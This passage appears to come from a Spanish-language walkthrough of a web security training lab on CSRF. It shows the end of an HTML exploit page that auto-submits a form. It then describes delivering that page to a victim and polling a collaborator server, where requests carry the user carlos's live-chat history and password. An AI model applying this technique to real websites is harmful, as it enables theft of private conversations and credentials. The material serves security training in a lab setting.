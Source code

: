 ```
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

Nos dirigimos al `Exploit server`, `pegamos` el `payload` y `pulsamos` sobre `Deliver exploit to victim`

![](/assets/img/CSRF-Lab-9/image_32.png)

En el apartado de `Collaborator` si pulsamos sobre `Poll now` recibiremos varias `peticiones`. Si miramos el `contenido` de las `peticiones` podremos ver todo el `historial` del `Live chat` del usuario `carlos`, incluida su `contraseña`
